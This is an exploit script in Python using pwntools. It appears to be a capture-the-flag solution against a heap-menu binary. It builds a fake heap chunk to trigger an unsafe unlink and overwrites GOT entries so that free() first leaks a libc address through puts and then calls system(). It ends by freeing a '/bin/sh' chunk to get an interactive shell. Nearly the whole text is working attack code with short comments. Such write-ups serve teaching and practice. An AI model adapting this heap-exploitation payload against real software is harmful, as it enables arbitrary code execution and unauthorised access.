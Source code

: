 ```python
pop_rdi_ret_addr = 0x400DA3
one_gadget_addr = 0x41EBC

io.recv()
io.sendline(b'CoLin')

create(0x420, 0, b'flag')
create(0x420, 1, b'flag')
delete(1)
delete(0)

payload = p64(0)		# fake chunk prev_size
payload += p64(0x420)	# fake chunk size
payload += p64(chunk_addr_bss - 0x18)	# fake chunk fd
payload += p64(chunk_addr_bss - 0x10)	# fake chunk_bk
payload += b'\x00' * 0x400	# useless filling data

payload += p64(0x420)	# front chunk prev_size (modified)
payload += p64(0x420)	# front size (modified)
payload += b'\x00' * 0x410	# useless filling data for front chunk

payload += p64(0x420)	# fake front-front chunk prev_size 
payload += p64(0x21)	# fake front-front chunk size with prev_inuse = true
create(0x860, 0, payload)

delete(1)				# trigger unlink_chunk(av, p)

# now the address of chunk_0 (0x6020e0) has been changed into 0x6020c8, we can edit the next chunk into .got.plt

payload = b'\x00' * 0x18	# useless data for filling
payload += p64(0x6020c8)	# chunk_0 address
payload += p64(1)			# chunk_0 inuse
payload += p64(0x602018)	# change the chunk_1 to .got.plt of free()
payload += p64(1)			# change chunk_1 into inuse
payload += p64(0x602028)	# the .got.plt of write, ready to be used to get libc loading address
payload += p64(1)			# set the chunk_2 into inuse for free()

edit(0, payload)

edit(1, p64(elf.plt['puts']))		# change the address, now free() equals puts()

delete(2)

mem_write_addr = u64(io.recv(6) + b'\x00\x00')	# get the write() address in memory
libc_base = mem_write_addr - libc_write_addr	# libc loading base
mem_sys_addr = libc_base + libc_sys_addr		# system() address in memory

edit(1, p64(mem_sys_addr))			# now free() equals system()

create(0x20, 3, b'/bin/sh')
delete(3)

io.interactive()
```
